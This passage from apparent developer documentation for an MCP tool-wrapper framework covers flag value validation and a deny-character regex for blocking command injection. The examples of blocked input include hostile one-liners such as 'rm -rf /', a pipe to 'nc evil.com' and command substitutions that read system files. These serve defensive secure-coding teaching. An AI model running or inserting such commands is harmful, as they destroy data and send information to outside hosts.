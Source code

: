 #### Pattern 2: Flags with Required Values

```python
class ToolWithValues(MCPBaseTool):
    command_name = "mytool"
    allowed_flags = ["-c", "-t", "-o"]
    
    # These flags MUST have values
    _FLAGS_REQUIRE_VALUE = {"-c", "-t"}
    
    # Valid: -c 5, -t 10, -o
    # Invalid: -c (missing value), -t (missing value)
```

#### Pattern 3: Complex Value Validation

```python
def _sanitize_tokens(self, tokens: Sequence[str]) -> Sequence[str]:
    """Override for custom value validation."""
    safe = []
    expect_value_for = None
    
    for token in tokens:
        # Handle flag values
        if expect_value_for:
            # Validate value for previous flag
            if expect_value_for == "-c":
                if not token.isdigit() or int(token) > 100:
                    raise ValueError(f"Invalid count: {token} (must be 1-100)")
            
            safe.append(token)
            expect_value_for = None
            continue
        
        # Check if flag requires value
        if token in self._FLAGS_REQUIRE_VALUE:
            expect_value_for = token
        
        safe.append(token)
    
    return safe
```

### 14.4 Dangerous Pattern Prevention

**Always block these:**
```python
# Blocked by default in base_tool.py
_DENY_CHARS = re.compile(r"[;&|`$><\n\r]")

# Examples of blocked inputs:
❌ "arg1; rm -rf /"       # Command injection
❌ "arg1 && malware"      # Command chaining
❌ "arg1 | nc evil.com"   # Pipe to external
❌ "arg1 `whoami`"        # Command substitution
❌ "arg1 $(cat /etc/pwd)" # Command substitution
❌ "arg1 > /tmp/evil"     # File redirection
```
